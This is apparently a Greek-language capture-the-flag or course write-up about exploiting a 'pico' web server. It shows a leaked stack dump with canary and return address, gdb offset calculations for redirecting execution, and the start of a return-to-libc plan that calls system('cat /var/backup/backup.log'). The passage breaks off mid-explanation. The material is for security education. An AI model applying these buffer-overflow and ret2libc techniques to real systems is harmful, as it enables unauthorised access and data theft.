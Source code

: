  ['5656d330', '0000009a', '56556cdc', '00000000', '00000000', '5655d4b9', '5655a180', '00000000', '00000000', '5656d330', '0000009a', '00000000', '00000001', '5656d330', '00000000', '565581d1', '0000009a', '00000000', '00000000', '00000000', '00000000', '00000000', '00000000', '00000000', '00000000', '00000000', '60be5800', 'f7cefd20', '56559f10', 'ffffcc88', '5655689d']

  saved_ebp: ffffcc88 // 30ο
  ret_address: 5655689d // 31ο
  canary: 60be5800 // 27ο
  word_after_canary: 56559f10 // 29ο

```

Άρα γνωρίζοντας πως το return address της check auth ισούται με **5655689d** προσθέτοντας 325 (δηλαδή την απόσταση του call <serve_ultimate> απο το πραγματικό return address), επιστρέφουμε στο σημείο που η route καλεί την serve_ultimate. Τα παραπάνω offsets είναι ίδια και στο πραγματικό μηχάνημα που τρέχει ο pico server. <br>

```
  ~ Πώς προκύπτει το 325 ~
  
  (gdb) x/i 0x565569e2
     0x565569e2 <route+443>:      call   0x5655717d <serve_ultimate>
  (gdb) x/i 0x5655689d
     0x5655689d <route+118>:      add    $0x10,%esp
```

Όλα τα παραπάνω συνοψίζονται στο script [question3.py](src/question3_4_5/question3.py), το οποίο αφού τρέξαμε πήραμε τα δεδομένα του **/var/www/pico/ultimate.html**.

```
  <pre>
  Thanks for the coins, I knew I can do business with you.

  Your ssh access to the server should be restored, you can find your
  files under /var/backup/ (see 'backup.log' for a list).

  To avoid losing your files again, hire us!
  5l0ppy 8uff00n5 can help you fix all your security issues.
  Use the code tmmt8pN_lj4 to get 20% off our usual rates!
  </pre>
```
## Ερώτημα 4

Έχοντας βρει από το προηγούμενο ερώτημα την πληροφορία πως τα αρχεία του Plan Y βρίσκονται στην τοποθεσία **/var/backup/backup.log**, είχαμε ως νέο στόχο να εξάγουμε τις πληροφορίες του αρχείου αυτού. Αυτό θα μπορούσαμε να το επιτύχουμε με ένα νέο **buffer overflow attack**, μόνο που αυτήν την φορά κάνοντας override το return address, θα καλούσαμε την συνάρτηση **system("cat /var/backup/backup.log")**, αντί της serve_ultimate. Το συγκεκριμένο attack είναι γνωστό στην βιβλιογραφία και ως **Return-to-libc attack** και είναι ο τρόπος να προσπεράσουμε το non-executable stack protection.

### Ανάλυση επίθεσης
Γνωρίζοντας πλέον πως είναι η στοίβα όταν πάει να επιστρέψει η post_param ξέραμε ότι το return address είναι η τελευταία λέξη που εκτυπώνεται απο την εντολή x/20xw $esp. Τα επόμενα δυο words πρέπει να είναι τα: 
  * 0xAAAAAAAA (padding) και 
  * η διεύθυνση του 1ου byte του της συμβολοσειράς που θέλουμε να είναι το argument της system.


### Υπολογισμός offsets & διαμόρφωση στοίβας
Αρχικά υπολογίσαμε το offset στο τοπικό μας μηχάνημα με τον εξής τρόπο (προσοχή στον υπολογισμό του offset δεν πρέπει να χρησιμοποιείται gdb γιατί δεν γίνονται randomize οι διευθύνσεις): 

1) Προσθέσαμε στην main τον παρακάτω κώδικα ο οποίος μας εκτυπώνει την διέυθυνση της system. <br>
```
  int (*ptr_to_main)() = system;
  for (i=0; i<sizeof ptr_to_main; i++)
      printf("%.2x", ((unsigned char *)&ptr_to_main)[i]);